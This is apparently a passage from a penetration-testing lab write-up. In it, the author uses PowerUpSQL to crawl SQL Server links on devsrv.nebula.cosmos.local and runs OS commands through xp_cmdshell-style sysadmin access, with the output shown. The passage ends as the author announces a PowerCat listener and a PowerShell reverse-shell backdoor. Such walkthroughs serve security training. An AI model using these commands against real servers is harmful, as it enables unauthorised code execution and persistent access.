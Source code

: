 ```powershell

SQLServerServicePack : RTM

OSArchitecture : X64

OsMachineType : ServerNT

OSVersionName : Windows Server 2016 Standard

OsVersionNumber : SQL

CurrentLogin : nebula\uatadmin

IsSysadmin : Yes

ActiveSessions : 1

  

PS C:\ad\tools\PowerUpSQL-master\PowerUpSQL-master> Get-SQLServerLinkCrawl -Instance devsrv.nebula.cosmos.local -Verbose

VERBOSE: devsrv.nebula.cosmos.local : Connection Success.

VERBOSE: devsrv.nebula.cosmos.local : Connection Success.

VERBOSE: ------------------------------------------

VERBOSE: Server: DEVSRV

VERBOSE: ------------------------------------------

VERBOSE: - Link Path to server: DEVSRV
```

luckily for me, i have sysadmin rights on this instance. meaning i can run OS commands, like `whoami` on the machine. 

```powershell
PS C:\ad\tools\PowerUpSQL-master\PowerUpSQL-master> Invoke-SQLOSCmd -Instance devsrv.nebula.cosmos.local -Command whoami

  

ComputerName                 Instance                    CommandResults

------------                   --------                    ---------

devsrv.nebula.cosmos.local   devsrv.nebula.cosmos.local  nebula\devsqladmin
```


i'm now going to build a backdoor into this instance. to do this, i'll set up a PowerCat listener and use a PowerShell reverse shell script.
